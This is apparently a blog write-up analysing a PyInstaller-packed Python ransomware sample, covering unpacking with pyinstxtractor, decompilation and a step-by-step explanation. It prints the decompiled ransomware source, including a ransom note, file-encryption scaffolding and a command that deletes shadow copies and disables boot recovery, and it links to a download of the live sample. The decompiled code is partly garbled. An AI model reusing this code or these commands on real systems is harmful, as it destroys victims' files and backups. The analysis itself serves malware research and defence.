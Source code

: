 ```yaml
---
title: "Malware analysis of a Pyinstaller ransomware sample"
classes: wide
header:
  teaser: /assets/images/malwareanalysis/pyinstaller/image-1.png
ribbon: DodgerBlue
description: "Decoding a ransomware sample made in Python, step by step"
categories:
  - Malware Analysis
toc: true
---
```

**Note:** if you want to download this ransomware sample for educational purposes, feel free to do so by clicking here: [password: infected](https://cdn.discordapp.com/attachments/1019271202851799130/1363587212566073536/pw_infected.zip?ex=6806930d&is=6805418d&hm=ee7f8b331b4d5db5e5b927b54f169933de6baee5c84042fec220b4b7f52aa34d&)

# Introduction

Recently, I've came across this Python ransomware sample:
![Encryptor.exe ransomware](/assets/images/malwareanalysis/pyinstaller/image.png)

First, here's the ransom note:
![ransomware note](/assets/images/malwareanalysis/pyinstaller/note.png)

Now, let's start examining the .exe file statically.
# Understanding the file
Here's the `Detect It Easy` output:
![Detect it easy](/assets/images/malwareanalysis/pyinstaller/image-1.png)

We can clearly see that the program is a python-compiled executable, by examining the hexadecimal artifacts:

![alt text](/assets/images/malwareanalysis/pyinstaller/image-2.png)

Now, let's jump to reversing the file! 

We will use the Python script [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract and analyze the contents of this pyinstaller generated executable file:
# Unpacking pyinstaller resources
![Analyzing the file](/assets/images/malwareanalysis/pyinstaller/image-3.png)

We received the output from pyinstxtractor:
```
C:\Users\WDAGUtilityAccount\Downloads\analyzing>pyinstxtractor.py Encryptor.exe
[+] Processing Encryptor.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.13
[+] Length of package: 21092376 bytes
[+] Found 120 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_cryptography_openssl.pyc
[+] Possible entry point: pyi_rth_pywintypes.pyc
[+] Possible entry point: pyi_rth_pythoncom.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: Encryptor.pyc
[+] Found 609 files in PYZ archive
[+] Successfully extracted pyinstaller archive: Encryptor.exe

```

You can now use a python decompiler on the pyc files within the extracted directory.

So, let's go to the newly generated `Encrypted.exe_extracted` folder:

![Unpacked libraries](/assets/images/malwareanalysis/pyinstaller/image-4.png)

This ransomware sample clearly uses a lot of cryptographic libraries.

This `Encrypted.pyc` file is one of the files in the `Encrypted.exe_extracted` folder:

![Bytecode](/assets/images/malwareanalysis/pyinstaller/image-5.png)

Now, we need to decompile the `Encrypted.pyc` file we received from pyinstxtractor. For that, we'll use the web interface of this library called [pylingual](https://www.pylingual.io/), that decompiles `.pyc` files containing the compiled bytecode of the ransomware's main Python source code:

Pylingual gave us a great reconstruction of the source code:
# Reconstructed source code
```py

# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: Encryptor.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

from pathlib import Path
from PIL import Image, ImageDraw, ImageFont
import ctypes
import string
import subprocess
import shutil
import base64
import sys
from win32com.client import Dispatch
from win32api import GetSystemMetrics
from PIL import Image, ImageDraw, ImageFont
import random
import os
import secrets
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives import serialization, hashes
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
PUBLIC_KEY_PEM = '-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDzOPVPDhQAR/xYjucI5SdCugXS\nG9ZFk5C1It85dOvh+fmD1UNXs5h3R28hUtThRARNh2ar3ADlGGWHIKwoV4P5hZx4\nq2Cg4odgWrf7a5eskCu3fI4eCTKBSItuEs4nFrjdu6HDXnzVHDkxrkWY96mmoZ9R\n0zG8Kyo6ofuge9p2IwIDAQAB\n-----END PUBLIC KEY-----'
AES_KEY_PATH = 'C:\\ProgramData\\02dq34jROu.key'
USER_PATH = os.path.expanduser('~')
TARGET_DIRS = ['Downloads', 'Music', 'Documents', 'Desktop', 'Videos', 'Pictures']
EXTENSION = '.02dq34jROu'

def _34EYLBSVGLRLCR7DM4():
    return serialization.load_pem_public_key(PUBLIC_KEY_PEM.encode(), backend=default_backend())

def _JXOPHO2CGWP23DL9L1():
    aes_key = secrets.token_bytes(32)
    public_key = _34EYLBSVGLRLCR7DM4()
    encrypted_aes_key = public_key.encrypt(aes_key, padding.OAEP(mgf=padding.MGF1(algorithm=hashes.SHA256()), algorithm=hashes.SHA256(), label=None))
    with open(AES_KEY_PATH, 'wb') as key_file:
        key_file.write(encrypted_aes_key)
        return aes_key

def _0HAHESD3QA17F3OWF7():
    if not os.path.exists(AES_KEY_PATH):
        return _JXOPHO2CGWP23DL9L1()

def _SSJAVGM86I7CGWDH9W(file_path, aes_key):
    if not file_path.endswith(EXTENSION) and (not file_path.endswith('.exe')) and (not file_path.endswith('.dll')) and file_path.endswith('.lnk'):
        pass  # postinserted
    return None

def _LLIRBGOWCAMFAVUTAK():
    global aes_key  # inserted
    contentof = '-- Lyrix\n\nYour data has been encrypted and stolen. The only way to recover it is by contacting us.\nDo not attempt to use third-party recovery tools — doing so may permanently damage your files.\n\nTo prove that decryption is possible, we are willing to decrypt 2 random files for free.\n\nYou can contact us at:\nTDVP7boZDZDE4GYWA3qW@protonmail.com\n\nWARNING!\nWe have also downloaded a portion of your data. If you do not pay, we will release it publicly.\n\nID: KVNR2HLU3N9W5BQCPU\n    '
    aes_key = _0HAHESD3QA17F3OWF7()
    print('AES key already exists. Skipping key generation.') if not aes_key else None
    appdata_dir = os.path.join(USER_PATH, 'AppData').lower()
    for root, dirs, files in os.walk(USER_PATH):
        root_normalized = os.path.abspath(root).lower()
        if root_normalized.startswith(appdata_dir):
            continue
        readme_path = os.path.join(root, 'README.txt')
        try:
            with open(readme_path, 'w', encoding='utf-8') as readme_file:
                readme_file.write(contentof)
                    print(f'Created README.txt in: {root}')
                    for file in files:
                        file_path = os.path.join(root, file)
                        try:
                            _SSJAVGM86I7CGWDH9W(file_path, aes_key)
                            print(f'File [{file_path}] encrypted')
    except Exception as e:
        print(f'[WARNING] Failed to create README.txt in {root}: {e}')
    except Exception as e:
        print(f'[WARNING] Cannot Encrypt file {file_path}: {e}')
if __name__ == '__main__':
    _LLIRBGOWCAMFAVUTAK()
subprocess.Popen('cmd.exe /c vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no', shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, stdin=subprocess.DEVNULL, creationflags=subprocess.CREATE_NO_WINDOW)
extensions_to_list = ['.exe', '.dll', '.lnk']

def list_files(drive_path, extensions):
    for root, dirs, files in os.walk(drive_path, topdown=True):
        for file in files:
            if any((file.endswith(ext) for ext in extensions)):
                continue
            file_path = os.path.join(root, file)
            _SSJAVGM86I7CGWDH9W(file_path, aes_key)
for drive_letter in string.ascii_uppercase:
    drive_path = f'{drive_letter}:/'
    if drive_letter not in ['C'] and os.path.exists(drive_path):
        pass  # postinserted
    else:  # inserted
        try:
            list_files(drive_path, extensions_to_list)
except PermissionError:
    print(f'Access denied to {drive_path}')

```
Great! So now we managed to get the literal source code itself.

Let's explain what the code does step by step:

# Source code explanation

Here are the key variables:
- `PUBLIC_KEY_PEM`: The attacker's RSA public key, hardcoded into the malware.
- `AES_KEY_PATH`: Where the victim’s encrypted AES key will be stored: `C:\ProgramData\02dq34jROu.key`. `02dq34jROu` is likely a generated ID for the key
- `TARGET_DIRS`: Standard folders to attack first (Downloads, Documents, Desktop, etc.).
- `EXTENSION`: Files will get renamed with the randomly generated ID `.02dq34jROu` after encryption (this code doesn't show the full renaming though).

The malware also uses `subprocess.Popen(...)` commands to deletes all system shadow copies and disables recovery options:

- `vssadmin delete shadows /all /quiet`
- `wmic shadowcopy delete`
- `bcdedit /set {default} bootstatuspolicy ignoreallfailures`
- `bcdedit /set {default} recoveryenabled no`

This makes it harder to recover files without paying.

`list_files(drive_path, extensions)`

Walks through a drive letter (like D:/, E:/).

The encryption routine works like this:

- For every file, if file is **NOT** .exe, .dll, or .lnk, it tries to encrypt it.
- For every drive letter A: to Z, i**f the drive exists and is NOT C:** (system drive), encrypt files on it.

This ransomware has some bugs and problems, and is likely very ameatur-ish. 

